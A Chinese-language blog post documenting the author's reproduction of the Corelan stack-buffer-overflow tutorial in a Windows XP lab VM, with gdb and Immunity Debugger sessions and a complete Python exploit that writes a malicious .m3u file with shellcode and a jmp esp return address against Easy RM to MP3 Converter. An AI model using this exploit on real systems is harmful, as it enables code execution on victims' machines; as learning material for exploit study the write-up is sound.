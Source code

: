 ```yaml
---
title: Pwn 学习：Stack Based Overflows 实战
date: 2023-01-13 01:17:00
tags: CTF
---
```


自己第一次学汇编是一年多以前了，逆向也搞过不少，但是 pwn 一直没尝试过。越狱 iPhone 时看了看那些漏洞的 POC 第一眼就觉得好高深啊，这起码得学完操作系统以后再说了。然而逆 iOS App 的时候学 arm 汇编看的[这篇文章](https://azeria-labs.com/writing-arm-assembly-part-1/)写了这段话：

> Just think about the great tutorials on Intel x86 Exploit writing by [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/1.html) or the [Corelan Team](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) – Guidelines like these help people interested in this specific area to get practical knowledge and the inspiration to learn beyond what is covered in those tutorials.

Well... Why not try it out? 于是就开始看。Fuzzy 的看上去有点晦涩，所以就跟着 Corelan 的走了。难易程度可以说还挺适合我。感觉 prerequisite 基本上就是学过 C 以及了解过汇编（反正遇到不会的查就得了），会某种脚本语言的话就更方便。

下面基本上记录一下我自己的复现过程。

首先准备环境。我的环境：

- `en_windows_xp_professional_with_service_pack_3_x86_cd_vl_x14-73974` 在 VMware 虚拟机里跑的。
- `ImmunityDebugger_1_85_setup` [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- `707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter` [exploit-db](https://www.exploit-db.com/exploits/10619) 下载
- `mona.py` [右键另存为下载](https://github.com/corelan/mona/raw/master/mona.py)
- `devcpp-4.9.9.2_setup` [SourceForge 下载](https://sourceforge.net/projects/dev-cpp/files/Binaries/Dev-C%2B%2B%204.9.9.2/devcpp-4.9.9.2_setup.exe/download)（惊叹，这玩意真小啊）

第一步是简单验证一下漏洞，原文用 perl 写文件，因为装 Immunity Debugger 时自动装了 Python 2.7.1 所以我就直接写 Python 了。

```python
f = open('crash.m3u', 'w')
f.write('A'*30000)
f.close()
```

装好 `EasyRMtoMP3Converter` 后导入发现直接崩溃。

然后第二步是写个小 demo 演示漏洞原理，代码

```c++
void vulnerable_func(char *buffer) {
     char canoverflow[128];
     strcpy(canoverflow, buffer);
}

int main(int argc, char **argv) {
     vulnerable_func(argv[1]);
}
```

编译完成后打开 Immunity Debugger 然后打开 exe 并且 arguments 随便填个 `AAAAAA`。进去以后单步调试观察函数调用和 strcpy 的作用。

这里正好学习一下 gdb 用法。下面用 gdb 调试：

```
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator>cd C:\

C:\>gdb stacktest.exe
GNU gdb 5.2.1
Copyright 2002 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i686-pc-mingw32"...(no debugging symbols found)...
(gdb) set args AAAAAAA
(gdb) set disassembly-flavor intel
(gdb) break main
Breakpoint 1 at 0x4012b6
(gdb) run
Starting program: C:\stacktest.exe AAAAAAA

Breakpoint 1, 0x004012b6 in main ()
(gdb) disassemble
Dump of assembler code for function main:
0x4012b0 <main>:        push   ebp
0x4012b1 <main+1>:      mov    ebp,esp
0x4012b3 <main+3>:      sub    esp,0x8
0x4012b6 <main+6>:      and    esp,0xfffffff0
0x4012b9 <main+9>:      mov    eax,0x0
0x4012be <main+14>:     add    eax,0xf
0x4012c1 <main+17>:     add    eax,0xf
0x4012c4 <main+20>:     shr    eax,0x4
0x4012c7 <main+23>:     shl    eax,0x4
0x4012ca <main+26>:     mov    DWORD PTR [ebp-4],eax
0x4012cd <main+29>:     mov    eax,DWORD PTR [ebp-4]
0x4012d0 <main+32>:     call   0x401730 <_alloca>
0x4012d5 <main+37>:     call   0x4013d0 <__main>
0x4012da <main+42>:     mov    eax,DWORD PTR [ebp+12]
0x4012dd <main+45>:     add    eax,0x4
0x4012e0 <main+48>:     mov    eax,DWORD PTR [eax]
0x4012e2 <main+50>:     mov    DWORD PTR [esp],eax
0x4012e5 <main+53>:     call   0x401290 <vulnerable_func>
0x4012ea <main+58>:     leave
0x4012eb <main+59>:     ret
0x4012ec <main+60>:     nop
0x4012ed <main+61>:     nop
---Type <return> to continue, or q <return> to quit---
```

重点观察的就是这几行：

```
0x4012da <main+42>:     mov    eax,DWORD PTR [ebp+12]
0x4012dd <main+45>:     add    eax,0x4
0x4012e0 <main+48>:     mov    eax,DWORD PTR [eax]
0x4012e2 <main+50>:     mov    DWORD PTR [esp],eax
0x4012e5 <main+53>:     call   0x401290 <vulnerable_func>
```

前面三行在取栈上 `argv[1]` 的值并放入 `eax`. 第 4 行将 `eax` 入栈。第 5 行将 `eip` 入栈保存 caller 地址然后跳转到 `0x401290`.

验证一下：

```
(gdb) break *main+50
Breakpoint 2 at 0x4012e2
(gdb) continue
Continuing.

Breakpoint 2, 0x004012e2 in main ()
(gdb) info registers eax
eax            0x3e248f 4072591
(gdb) x/s $eax
0x3e248f:        "AAAAAAA"
(gdb) stepi
0x004012e5 in main ()
(gdb) info frame
Stack level 0, frame at 0x22ff78:
 eip = 0x4012e5 in main; saved eip 0x4011e7
 Arglist at 0x22ff78, args:
 Locals at 0x22ff78, Previous frame's sp is 0x0
 Saved registers:
  ebp at 0x22ff78, eip at 0x22ff7c
(gdb) x/4x $esp
0x22ff60:       0x003e248f      0x0022ec24      0x003e29f0      0x004012d5
(gdb) stepi
0x00401290 in vulnerable_func ()
(gdb) info frame
Stack level 0, frame at 0x22ff78:
 eip = 0x401290 in vulnerable_func; saved eip 0x4011e7
 Arglist at 0x22ff78, args:
 Locals at 0x22ff78, Previous frame's sp is 0x0
 Saved registers:
  ebp at 0x22ff78, eip at 0x22ff7c
(gdb) x/4x $esp
0x22ff5c:       0x004012ea      0x003e248f      0x0022ec24      0x003e29f0
```

这里有个小知识盲区，Immunity Debugger 里面显示 `MOV DWORD PTR SS:[ESP],EAX` 这个 `SS` 是啥意思？有的地方写的是 `DS`。于是搜了一通：[What does "DS:40207A" mean in assembly?](https://stackoverflow.com/questions/3819699/what-does-ds40207a-mean-in-assembly) 然后又找了一下 [What does `dword ptr` mean?](https://stackoverflow.com/questions/2987876/what-does-dword-ptr-mean)

第三步是把 debugger 挂到要研究的程序上观察崩溃原因。直接打开程序然后 attach 即可。

后面要找 offset 我比较直接地在栈内存那个窗口找的字符串起点……然后减一下得到 offset. 但是很奇怪的是算的不是很准而且比正确的大 10000 左右。我找的是 `0xFF730 - 0xF6E55 = 35035`. 后面二分找了一下最后结果是 26059.

```python
f = open('crash.m3u', 'w')
f.write('A'*26059+'B'*4+'XXXX'+'1ABCDEFGHIJKLMNOPQRSTUVWXYZ')
f.close()
```

后面跟着文章做了一次不成功的尝试，但是当时我其实 eip 覆盖的都是错的，因为没有写成小端……

```python
f = open('crash.m3u', 'w')
f.write('A'*26059+'\x30\xf7\x0f\x00'+'\x90'*25+'\xcc'+'\x90'*25)
f.close()
```

第四步是从加载的 DLL 里找 `jmp esp` 这个指令，绕过地址中有 `\x00` 导致字符串中间有 terminator 的问题。我用的是 [mona.py](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)（继承了 pvefindaddr）简单看了一下文档，下载放入 PyCommands 然后 DLL 加载完成后在 Immunity Debugger 底部文本框输入

```
!mona find -type bin -s ffe4
```

查找出的结果在 `C:\Program Files\Immunity Inc\Immunity Debugger\find.txt`. 打开后搜索 `MSRMCcodec02.dll` 发现这行

```
0x01acb22a (b+0x0022b22a)  : ffe4 |  {PAGE_READWRITE} [MSRMCcodec02.dll] ASLR: False, Rebase: True, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll)
```

最后用了文中构造好的 shellcode 成功打开计算器

```python
f = open('crash.m3u', 'w')
shellcode = "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1" + \
"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30" + \
"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa" + \
"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96" + \
"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b" + \
"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a" + \
"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83" + \
"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98" + \
"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61" + \
"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05" + \
"\x7f\xe8\x7b\xca"
f.write('A'*26059+'\x2a\xb2\xac\x01'+'\x90'*25+shellcode+'\x90'*25)
f.close()
```

后面发现不挂载 Immunity Debugger 时打开不起作用，应该是因为 attach 在加载 DLL 前。直接打开程序然后 attach，搜索得到如下结果

```
0x01afb22a (b+0x0022b22a)  : ffe4 |  {PAGE_READWRITE} [MSRMCcodec02.dll] ASLR: False, Rebase: True, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll)
```

所以改成

```python
f = open('crash.m3u', 'w')
shellcode = "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1" + \
"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30" + \
"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa" + \
"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96" + \
"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b" + \
"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a" + \
"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83" + \
"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98" + \
"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61" + \
"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05" + \
"\x7f\xe8\x7b\xca"
f.write('A'*26059+'\x2a\xb2\xaf\x01'+'\x90'*25+shellcode+'\x90'*25)
f.close()
```

最后放张成果图。

![Windows XP Professional x86-2023-01-13-01-08-36.png](https://s2.loli.net/2023/01/13/cUPWw346ReZdyI7.png)

